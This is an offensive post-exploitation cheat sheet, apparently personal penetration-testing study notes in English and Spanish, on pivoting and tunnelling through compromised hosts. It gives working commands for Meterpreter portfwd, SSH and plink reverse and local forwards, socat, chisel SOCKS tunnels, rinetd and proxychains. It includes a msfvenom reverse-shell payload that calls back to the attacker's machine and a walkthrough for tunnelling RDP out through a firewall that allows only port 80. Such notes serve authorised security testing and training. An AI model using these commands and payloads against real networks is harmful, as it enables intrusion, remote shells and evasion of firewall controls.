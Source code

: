 ```yaml
---
title: pivoting+tunneling
category: post exploitation
order: 1
---
```



# PORT FORWARDING "port to port":

## MSF
Most platforms

Forward:
Get meterpreter session on one of the dual homed machines
portfwd add -l 4445 -p 4443 -r 10.1.1.1
Use -R to make it reverse


## SSH
#### | in kali
```
-R 8081:172.24.0.2:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
```
> <KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80

Now you can access 172.24.0.2:80, which you didn't have direct access to

```
-L 8083:127.0.0.1:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)
```

> <KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX

run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it




#### | For reverse shell:
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.1.1.230 LPORT=8083 -f exe -o shell
```
Run it on 2nd remote target to get a shell on Kali


Or if you didn't have an SSH session, then SSH to your Kali from target machine:
On Kali: service ssh start "add a user, give it /bin/false in /etc/passwd"
```
ssh - -R 12345:192.168.122.228:5986 test@10.1.1.1
```

## PLINK
Just like SSH, on Windows
service ssh start , and transfer /usr/share/windows-binaries/plink.exe to the target machine

On Target:
```
 plink.exe 10.1.1.1 -P 22 -C -N -L 0.0.0.0:4445:10.1.1.1:4443 -l KALIUSER -pw PASS
```

## SOCAT
For linux

Forward your 8083 to 62.41.90.2:443
```
./socat TCP4-LISTEN:8083,fork TCP4:62.41.90.2:443
```

## CHISEL
Most platforms

Remote static tunnels "port to port":

On Kali "reverse proxy listener":
```
./chisel server -p 8000 -reverse
```
General command:
```
./chisel client <YOUR IP>:<YOUR CHISEL SERVER PORT> L/R:[YOUR LOCAL IP]:<TUNNEL LISTENING PORT>:<TUNNEL TARGET>:<TUNNEL PORT>
```

Remote tunnels "access IP:PORT you couldn't access before":
On Target:
```
./chisel client 10.1.1.1:8000 R:127.0.0.1:8001:172.19.0.3:80
```

Local tunnels "listen on the target for something, and send it to us":
On Target:
```
./chisel client 10.1.1.1:8000 9001:127.0.0.1:8003
```


&nbsp;
&nbsp;
# DYNAMIC "port to any":
---
setup proxychains with socks5 on 127.0.0.1:1080
Or set up socks5 proxy on firefox
For nmap use -Pn -sT or use tcp scanner in msf


## MSF
Most platforms

Get meterpreter session on one of the dual homed machines
Auto route to 10.1.1.0 (multi/manage/autoroute)
Start socks proxy (auxiliary/server/socks4a)


## SSH
For Linux
```
-D1080
```

## PLINK
Just like SSH, on Windows
On Target:
```
 plink.exe 10.1.1.1 -P 22 -C -N -D 1080 -l KALIUSER -pw PASS
```

## CHISEL
Most platforms

On Kali:
```
./chisel server -p 8000 -reverse
```
On Target:
```
./chisel client 10.1.1.1:8000 R:8001:127.0.0.1:1080
./chisel server -p 8001 --socks5
```

On Kali:
```
./chisel client 127.0.0.1:8001 socks
```




&nbsp;
&nbsp;
# EXAMPLE
---
c:> mstsc (el rdesktop de windows)

supongamos que tenemos un target (lopez) que queremos conectar a un server (w2003 67.23.72.109) por mstsc, el firewall de lopez deja salir paketes solo por el puerto 80, para poder usar el puerto 3389  vamos a necesitar otra maquina que nos haga de proxy(kali  208.88.127.99)

## Pasos

**1** En Kali usamos rinetd

```
  root@kali: vim /etc/rinetd.conf
  #bindaddress     bindport  connectaddress    connectport
  208.88.127.99   80          67.23.72.109   3389
  root@kali: /etc/init.d/rinetd restart
```

**2**  desde lopez nos conectamos a nuestro proxy machine en mstsc

**3**  profit

&nbsp;
&nbsp;


# rdesktop case

tengo shell en una windows box interna no routeable y le hice descargar plink


* Nos conectamos con putty(plink) a nuestra kali(.99) y redirigimos el puerto 3389 en windows al 3390 en kali
```
  C:> Plink -l root -pw uberpass  208.88.127.99 -R 3390:127.0.0.1:3389   
```
```
  root@kali:netsta -antl | grep LISTENING <-nos deberia mostrar el 3390 escuchando
  ```

#abrimios otra terminal y dejamos esa abierta que esta tuneleando
```
  root@kali: rdesktop 127.0.0.1:3390  <- nos deberia mostrar el remote desktop de windows

```


# PROXYCHAINS
---

```
  root@kali:ssh -D 8080 root@admin.megacorpone.com
  root@admin: ifconfig (172.16.40.10)
```

  #primero configuramos proxychains para que use el socks 8080
```
  root@kali: proxychains <tool>
  ex:
  root@kali: proxychains nmap -p 3389 -sT -Pn 172.16.40.18-29 --open
  |s-CHAINS| ..... BLABLA
  ...
  (172.168.40.20)
  3389 open
  root@kali: proxychains rdesktop 172.168.40.20

```

https://hkashfi.blogspot.com.ar/2008/04/bypassing-firewalls-with-port_23.html
